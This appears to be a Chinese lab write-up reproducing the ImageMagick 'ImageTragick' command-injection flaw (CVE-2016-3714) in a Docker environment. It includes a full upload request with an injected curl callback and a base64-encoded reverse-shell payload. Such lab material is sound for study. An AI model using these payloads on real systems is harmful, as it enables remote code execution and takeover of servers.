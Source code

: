 # Imagemagick 命令执行漏洞 CVE-2016–3714

## 漏洞描述

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。但近来有研究者发现，当用户传入一个包含『畸形内容』的图片的时候，就有可能触发命令注入漏洞。

参考链接：

- [https://imagetragick.com](https://imagetragick.com/)
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/ImageTragick/PoCs

## 环境搭建

执行如下命令启动一个包含了Imagemagick 6.9.2-10的PHP服务器：

```
docker-compose up -d
```

## 漏洞复现

访问`http://your-ip:8080/`即可查看到一个上传组件。

发送如下数据包：

```
POST / HTTP/1.1
Host: your-ip:8080
Content-Length: 321
Origin: http://your-ip:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGqvKmZLh7bp9gMc1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8


------WebKitFormBoundaryGqvKmZLh7bp9gMc1
Content-Disposition: form-data; name="file_upload"; filename="avatar.jpg"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.your-domain.cn:2333)'
pop graphic-context
------WebKitFormBoundaryGqvKmZLh7bp9gMc1--
```

![image-20220224112947475](./images/202202241129569.png)

`www.your-domain.cn`监听2333端口。可见，2333端口已经接收到http请求，说明curl命令执行成功：

![image-20220224113125611](./images/202202241131681.png)

反弹shell（只能使用`/bin/bash`反弹，不能使用`bash`反弹）：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjQzLjIzNy42MS8yMzMzIDA+JjEK | base64 -d | bash`"||id " )'
pop graphic-context
```

监听2333端口，接收反弹shell：

![image-20220224114827774](./images/202202241148867.png)

